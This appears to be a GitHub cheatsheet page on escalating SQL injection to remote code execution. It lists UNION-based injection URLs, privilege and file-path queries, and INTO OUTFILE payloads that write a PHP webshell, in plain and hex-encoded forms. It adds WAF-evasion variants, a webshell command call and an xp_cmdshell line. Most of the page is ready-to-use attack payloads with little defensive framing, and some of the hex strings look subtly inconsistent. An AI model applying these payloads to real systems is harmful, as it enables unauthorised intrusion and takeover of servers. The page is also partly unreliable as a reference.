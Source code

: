 # SQL Privilege Escalation

## Identifying the write user's permission
If the database user has write permission, it allows an attacker to upload arbitrary files in the server.  

Let's suppose that the website has 12 columns and the given UNION Based SQL query shows that the vulnerable column is 4:  
```http://domain.com/index.php?id=1' Union Select 1,2,3,4,5,6,7,8,9,10,11,12-- -```

Payload used for Privilege Check via I_S.PRIVILEGES:  
```sql
(SELECT+GROUP_CONCAT(GRANTEE,0x202d3e20,IS_GRANTABLE,0x3c62723e)+FROM+INFORMATION_SCHEMA.USER_PRIVILEGES)
```

Payload used for Privilege Check via MySQL System Table:  
```sql
(SELECT+GROUP_CONCAT(user,0x202d3e20,file_priv,0x3c62723e)+FROM+mysql.user)
```

If for some reason you get Errors when using the mentioned queries, try the following query instead (it uses unhex(hex()) functions to avoid servier-side conflicts:  
```sql
(SELECT+unhex(hex(GROUP_CONCAT(GRANTEE,0x202d3e20,IS_GRANTABLE,0x3c62723e)))+FROM+INFORMATION_SCHEMA.USER_PRIVILEGES)
```

Apply one of the queries into the 4th column:  
```http://domain.com/index.php?id=1' Union Select 1,2,3,(SELECT+GROUP_CONCAT(GRANTEE,0x202d3e20,IS_GRANTABLE,0x3c62723e)+FROM+INFORMATION_SCHEMA.USER_PRIVILEGES),5,6,7,8,9,10,11,12-- -```

Look into the results, if 'root'@'localhost' is YES, then we can perform Privilage Escalation (perform RCE). Else, if NO is shown we can't perform RCE since we don't have permission to write over the server.

## Escalating privileges

Since we have permission to write, we can create our own PHP Webshell, but to do this we need to know the absolute path of INDEX.

### Finding absolute path

1. The most common way to find a path, is by searching the temporary path that SQL has, to do that we simply use the following query, to get some absolute path directories:
```sql
@@slave_load_tmpdir
@@basedir
@@datadir
@@tmpdir
```

Look at the output, you should look after a directory, something like this:
**/var/mysqltmp**  

This means that we can upload files to **/mysqltmp**

2. Another way (when website likes to Error) is to perform a 'Fatal Error' or a Syntax Error and the absolute path will be shown bolded like the image below.
Note: different websites displayes different output and format.

![fatal_error_syntax](https://i.imgur.com/rAPKrh1.png)

The bold part is the absolute path: **E:\xampp\htdocs** which is converted to **E:/xampp/htdocs**

### Uploading webshell

Let's use the following PHP code to inject it into an arbitrary file:
```php
<?php system($_GET[‘cmd’]); ?>
```

Below is the PHP script converted to 0xHEX format:  
```0xa3c3f7068702073797374656d28245f4745545b27636d64275d293b203f3e```

The following queries (same goal, different approach) is to inject this php code into an arbitrary file which we will name it **webshell.php** (for this part you MUST assume/know the absolute path of the file you want to upload, otherwise it won't work. Hint: use [@@slave_load_tmpdir](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/edit/main/Privilege%20Escalation/README.md#finding-absolute-path) to find the temporary directory located in the server).  

```sql
http://domain.com/index.php?id=1' Union Select 1,2,3,0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d,5,6,7,8,9,10,11,12 into outfile 'E:/xampp/htdocs/webshell.php'-- -
```  
```sql
http://domain.com/index.php?id=1' Union Select 1,2,3,"<?php system($_GET['cmd']); ?>",5,6,7,8,9,10,11,12 into outfile "C:\\xampp\\htdocs\\webshell.php'-- -
```  
```sql
http://domain.com/index.php?id=1' Union Select '' into outfile '/var/www/html/webshell.php' FIELDS TERMINATED BY "<?php system($_GET['cmd']); ?>"
```  

If WAF comes into the play and makes it unable for you to upload webshell, try using the following concat() functions to load the PHP script:
```sql
unhex(hex(/*!50000group_concat*/(/*!500000x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d*/)))  
%0AcOnCat(0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d)  
/**//*!12345cOnCat*/(0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d)  
unhex(hex(/*!12345concat*/(0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d)))  
```

Since the webshell is upload, you can go execute OS Commands:

```http://domain.com/webshell.php?cmd=whoami```

## OS Command Execution

Via **xp_cmdshell**:  
```something'); exec xp_cmdshell "ping 10.10.x.x"--``` 
